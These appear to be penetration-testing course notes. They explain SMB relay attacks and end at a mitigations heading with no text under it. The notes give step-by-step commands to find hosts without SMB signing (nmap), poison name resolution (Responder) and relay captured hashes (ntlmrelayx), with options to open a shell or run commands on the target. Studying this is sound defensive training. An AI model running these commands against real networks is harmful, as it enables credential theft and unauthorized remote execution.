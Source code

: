 If a company must use or cannot disable LLMNR/NBT-NS, the best course of action is to:

- Require Network Access Control (restrict devices on the network, e.g through MAC address)
- Require strong user passwords (e.g. > 14 chars in length and limit common word use)

### SMB Relay Attacks Overview

**What is SMB Relay?**

Instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines
and potentially gain access

Requirements:

- SMB signing must be disabled or not enforced on the target
- Relayed user credentials must be an admin on the machine for any real value

Identify hosts without SMB signing:

`nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24`

**SMB Relay**

Step 1: Turn SMB and HTTP off in /etc/responder/Responder.conf
Step 2: Run Responder `sudo responder -i tun0 -dwP`
Step 3: Run ntlmrelayx `sudo impacket-ntlmrelayx/ntlmrelay.py -tf targets.txt -smb2support`
Step 4: Wait for an event to occur
Step 5: Responder dumps the hashes from the SAM of the target

Alternatives options to use with ntlmrelayx:

- the `-i` option to start an interactive shell on the target
- the `-c` option to execute a command on the target

### SMB Relay Attacks Lab

Scan our targets with an nmap script to determine whether SMB signing is enabled and enforced

`nmap --script=smb2-security-mode.nse -p445 -Pn 10.10.10.2`

To sweep a network use grep to filter for the vulnerable machines

`nmap --script=smb2-security-mode.nse -p445 -Pn 10.10.10.0/24 | grep not`

Run responder with HTTP and SMB off in /etc/responder/Responder.conf

`sudo responder -I eth0 -dwPv`

Start ntlmrelayx to capture hashes, start an interactive session `-i`, or run a command `-c cmd` using a
targets file

`impacket-ntlmrelayx -tf targets.txt -smb2support`

On one of the targets navigate to the attacking machine's IP to trigger the relay

### SMB Relay Attack Defenses

**Mitigation Strategies:**
